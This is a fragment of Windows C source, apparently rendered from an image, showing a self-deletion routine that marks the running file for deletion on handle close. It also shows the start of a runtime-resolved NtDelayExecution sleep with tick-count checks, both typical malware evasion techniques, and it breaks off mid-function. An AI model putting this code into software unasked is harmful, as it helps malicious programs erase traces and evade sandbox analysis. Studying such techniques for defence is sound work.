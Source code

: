 ```
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE && GetLastError() == ERROR_FILE_NOT_FOUND) {
		// in case the file is already deleted
		return TRUE;
	}
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] DELETING ...");

	// Marking for deletion after the file's handle is closed
	if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
		printf("[!] SetFileInformationByHandle [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//--------------------------------------------------------------------------------------------------------------------------

	// Freeing the allocated buffer
	HeapFree(GetProcessHeap(), 0, pRename);

	return TRUE;
}



typedef NTSTATUS(NTAPI* fnNtDelayExecution)(
	BOOLEAN              Alertable,
	PLARGE_INTEGER       DelayInterval
	);

BOOL DelayExecutionVia_NtDE(FLOAT ftMinutes) {

	// Converting minutes to milliseconds
	DWORD                   dwMilliSeconds         = ftMinutes * 60000;
	LARGE_INTEGER           DelayInterval          = { 0 };
	LONGLONG                Delay                  = NULL;
	NTSTATUS                STATUS                 = NULL;
	fnNtDelayExecution      pNtDelayExecution      = (fnNtDelayExecution)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtDelayExecution");
	DWORD                   _T0                    = NULL,
	                        _T1                    = NULL;

	printf("[i] Delaying Execution Using \"NtDelayExecution\" For %0.3d Seconds", (dwMilliSeconds / 1000));

	// Converting from milliseconds to the 100-nanosecond - negative time interval
	Delay = dwMilliSeconds * 10000;
	DelayInterval.QuadPart = -Delay;

	_T0 = GetTickCount64();

	// Sleeping for 'dwMilliSeconds' ms
	if ((STATUS = pNtDelayExecution(FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
		printf("[!] NtDelayExecution Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
```